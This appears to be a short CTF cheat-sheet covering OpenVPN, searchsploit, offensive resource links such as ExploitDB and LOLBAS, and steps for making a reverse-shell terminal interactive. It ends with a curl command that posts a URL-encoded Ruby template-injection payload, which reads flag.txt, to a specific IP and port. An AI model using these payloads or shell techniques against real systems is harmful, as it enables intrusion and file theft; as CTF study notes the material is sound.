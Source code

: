 # CTFs

## Openvpn

* Tool for getting acces to a VPN

{% code overflow="wrap" lineNumbers="true" %}
```bash
openvpn $ovpnfile
```
{% endcode %}

***



## Searchsploit

* Kali package for acceding to exploitDB

{% code overflow="wrap" lineNumbers="true" %}
```bash
searchsploit $Keywords
```
{% endcode %}

***



## Information Sources

* **ExploitDB:** Contains exploits that can be downloaded and used. Kali Linux comes with a preinstalled version called _Searchsploit._ [https://www.exploit-db.com/](https://www.exploit-db.com/)
* **LOLBAS:** Contain scripts, binaries and libraries for developing a Living off the Land attack. [https://lolbas-project.github.io/](https://lolbas-project.github.io/)
* **OWASP Favicon:** Database to identify typical frameworks icons [https://wiki.owasp.org/index.php/OWASP\_favicon\_database](https://wiki.owasp.org/index.php/OWASP\_favicon\_database)
* **Hacksplaining:** [https://www.hacksplaining.com/lessons](https://www.hacksplaining.com/lessons)



## TTY Sanizitation

Executing this commands let us configure a terminal to be interactive an process keybinding as a normal bash. Very usefull when we get a external terminal for example with a reverse shell.

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>openvpn $ovpnfile
</strong>script /dev/null -c bash
ctrl +z
stty raw -echo;fg
reset
export TERM=xterm
export SHELL=bash
stty rows 24 columns 126
</code></pre>



curl 159.65.24.125:31840 -s -X POST -d 'neon=holamundo %3C%25%3D%20File.open%28%27.%2Fflag.txt%27%29.read%20%25%3E'

Payload Ruby [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#ruby](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#ruby)
